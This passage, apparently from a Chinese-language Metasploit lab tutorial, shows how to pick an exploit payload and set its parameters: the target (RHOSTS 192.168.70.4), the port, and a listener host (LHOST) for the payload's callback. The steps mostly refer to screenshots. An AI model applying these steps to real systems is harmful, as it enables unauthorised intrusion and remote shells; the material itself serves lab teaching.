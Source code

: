 ![](./images/选择合适的exp%20payload.png)
* 使用```show options```查看参数，并使用```set```进行改变参数
```bash
show options
set RHOSTS 192.168.70.4
set rport <your_port>
set LHOST 192.168.70.7
```
![](./images/使用options去查看payload的参数.png)
![](./images/指定lhost.png)